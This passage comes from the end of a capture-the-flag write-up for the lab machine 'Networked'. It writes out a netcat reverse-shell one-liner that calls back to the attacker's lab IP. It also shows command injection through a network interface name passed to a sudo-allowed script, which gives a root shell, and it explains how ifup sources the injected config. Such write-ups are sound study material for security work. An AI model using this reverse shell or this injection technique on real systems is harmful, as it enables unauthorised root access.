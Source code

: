 Then, on the `Networked` machine,

{% highlight bash %}
[guly@networked /tmp]$ echo "rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.XXX.XXX 1339 >/tmp/g" > runme
[guly@networked /tmp]$ chmod 777 runme
[guly@networked /tmp]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a /tmp/runme
...
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
{% endhighlight %}

# root.txt

Back on our machine, we caught the reverse shell connection.
{% highlight bash %}
connect to [10.10.XXX.XXX] from (UNKNOWN) [10.10.10.146] 51618
sh: no job control in this shell
sh-4.2# whoami
whoami
root
sh-4.2# cat /root/root.txt
0a8eXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}


## Rooted ! Thank you for reading and look forward for more writeups and articles !

# Extras

I went on to study how was `/etc/sysconfig/network-scripts/ifcfg-guly` was being used when `/sbin/ifup guly0` was executed and it actually explains why commands can be injected.

`/sbin/ifup guly0`
{% highlight bash %}
#!/bin/bash
...
cd /etc/sysconfig/network-scripts
. ./network-functions
...
CONFIG=${1}
...
source_config
...
{% endhighlight %}

There was one line which was calling `source_config`, which is a function imported from `/etc/sysconfig/network-scripts/network-functions`. How was the function imported? This is where I also learnt that `. <command>` is actually the same as `source <command>`, which reads and execute commands in the `<command>` file, essentially importing the functions in there too.
